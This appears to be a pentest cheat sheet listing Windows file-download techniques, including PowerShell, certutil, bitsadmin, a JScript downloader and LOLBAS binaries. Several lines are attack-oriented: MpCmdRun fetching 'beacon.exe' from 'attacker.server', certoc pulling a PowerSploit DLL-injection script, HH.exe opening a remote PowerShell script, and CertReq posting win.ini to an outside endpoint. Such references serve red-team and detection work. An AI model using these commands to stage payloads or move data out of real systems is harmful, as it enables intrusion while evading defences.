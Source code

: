 # Downloading files

## Powershell

Its simple:
```
(new-object System.Net.WebClient).DownloadFile('http://www.example.com/file.txt', 'C:\tmp\file.txt')
```
or
`Invoke-WebRequest -Uri 'http://google.com/file' -OutFile 'C:/file'`
or
```
Import-Module bitstransfer
start-bitstransfer -source http://something/something.ext -destination c:\something.ext
```

## Clean CMD

`certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip`

`bitsadmin /transfer myDownloadJob /download /priority normal http://downloadsrv/10mb.zip c:\10mb.zip`

## Perverse way

Save this code as wget.js
```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
WScript.Echo(WinHttpReq.ResponseText);

/* To save a binary file use this code instead of previous line
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile("out.bin");
*/
```
then run
`cscript /nologo wget.js http://example.com`

## Other methods and LOLBAS

AppInstaller.exe is spawned by the default handler for the URI, it attempts to load/install a package from the URL and is saved in C:\Users\%username%\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\AC\INetCache\
`start ms-appinstaller://?source=https://pastebin.com/raw/tdyShwLw`

Downloads text formatted files 
`certoc.exe -GetCACAPS https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-DllInjection.ps1`

Save the response from a HTTP POST to the endpoint https://example.org/ as output.txt in the current directory 
`CertReq -Post -config https://example.org/ c:\windows\win.ini output.txt`

Download a file from the web address specified in the configuration file. The downloaded file will be in %TMP% under the name VPNXXXX.tmp where "X" denotes a random number or letter.
`cmdl32 /vpn /lan %cd%\config`

Downloads the file and sets it as the computer's lockscreen 
`set "SYSTEMROOT=C:\Windows\Temp" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://domain.com:8080/file.ext /eventName:desktopimgdownldr`

Open the target PowerShell script with HTML Help. 
`HH.exe http://some.url/script.ps1`

Binary part of Windows Defender. Used to manage settings in Windows Defender.
Download file to specified path - Slashes work as well as dashes (/DownloadFile, /url, /path) 
`MpCmdRun.exe -DownloadFile -url https://attacker.server/beacon.exe -path c:\\temp\\beacon.exe`

Xwizard.exe uses RemoteApp and Desktop Connections wizard to download a file.
`xwizard RunWizard {7940acf8-60ba-4213-a7c3-f3b400ee266d} /zhttps://pastebin.com/raw/iLxUT5gM`